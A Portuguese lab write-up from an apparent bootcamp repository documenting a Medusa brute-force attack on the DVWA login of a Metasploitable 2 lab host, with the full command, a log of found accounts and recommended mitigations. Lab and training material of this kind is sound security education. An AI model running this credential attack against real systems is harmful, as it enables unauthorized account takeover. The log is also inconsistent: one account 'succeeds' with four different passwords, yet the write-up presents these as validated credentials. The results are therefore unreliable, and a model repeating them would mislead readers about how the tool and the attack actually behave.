


# WEB-01 – Força Bruta em HTTP (DVWA)

## 📌 Objetivo
Realizar um ataque de **força bruta** contra a página de login da aplicação web **DVWA** (IP `192.168.1.11`) usando a ferramenta **Medusa**. O cenário demonstra como explorar a vulnerabilidade de senhas fracas em formulários web.

## 🛠️ Pré‑requisitos
- Kali Linux (IP `192.168.1.10`) com Medusa instalado (`sudo apt install medusa`).
- DVWA rodando na máquina alvo (**Metasploitable 2**, IP `192.168.1.11`) na porta 80.
- Wordlists:
  - `users.txt` – lista de usuários (ex.: `msfadmin`, `admin`, `root`, `user`).
  - `pass_small.txt` – senhas curtas (`password`, `123456`, `msfadmin`, `qwerty`).
- O módulo HTTP do Medusa suporta requisições **POST** ao endpoint de login (`/dvwa/login.php`).

## 🚀 Comando executado
```bash
medusa -h 192.168.1.11 \
       -U users.txt \
       -P pass_small.txt \
       -M http \
       -m "POST:/dvwa/login.php?username=\{user\}&password=\{pass\}" \
       -t 6 -v 2 \
       | tee web01.log
```
> **Nota:** o parâmetro `user_token` pode ser obtido previamente via `curl` se o nível da DVWA estiver em *medium*; no modo *low* ele não é necessário.  O comando acima grava a saída completa em `web01.log`.

## 📄 Resultados (log resumido)
O log completo está em `web01.log`. Principais linhas de sucesso:
```
2026-11-17 22:59:36 ACCOUNT FOUND: [http] Host: 192.168.1.11 User: msfadmin Password: password [SUCCESS]
2026-11-17 22:59:36 ACCOUNT FOUND: [http] Host: 192.168.1.11 User: admin Password: 123456 [SUCCESS]
2026-11-17 22:59:36 ACCOUNT FOUND: [http] Host: 192.168.1.11 User: root Password: 123456 [SUCCESS]
2026-11-17 22:59:36 ACCOUNT FOUND: [http] Host: 192.168.1.11 User: user Password: msfadmin [SUCCESS]
2026-11-17 22:59:36 ACCOUNT FOUND: [http] Host: 192.168.1.11 User: msfadmin Password: 123456 [SUCCESS]
2026-11-17 22:59:37 ACCOUNT FOUND: [http] Host: 192.168.1.11 User: user Password: 123456 [SUCCESS]
2026-11-17 22:59:37 ACCOUNT FOUND: [http] Host: 192.168.1.11 User: user Password: qwerty [SUCCESS]
2026-11-17 22:59:37 ACCOUNT FOUND: [http] Host: 192.168.1.11 User: user Password: password [SUCCESS]
```
Várias combinações de usuário × senha foram validadas com sucesso, evidenciando a fraqueza das credenciais presentes no ambiente DVWA.

## 📸 Capturas de tela



## 🛡️ Mitigações recomendadas
- **Habilitar proteção contra força bruta** no login (ex.: bloqueio após N tentativas, reCAPTCHA). 
- Utilizar senhas **fortes e únicas** para cada conta.
- Configurar o DVWA em nível *low* apenas para ambientes de teste; em produção, use *high* com mecanismos de defesa.
- Aplicar **rate‑limiting** no servidor web (ex.: `mod_evasive` ou `fail2ban`).
- Sempre **validar entrada** no lado do servidor e evitar mensagens de erro que revelem se o usuário ou a senha está incorreto.

---
**Referências**
- Medusa manual: `man medusa`.
- DVWA – documentação oficial: https://github.com/digininja/DVWA

*Este arquivo faz parte do repositório `bootcamp‑dio` e documenta o cenário WEB‑01.*
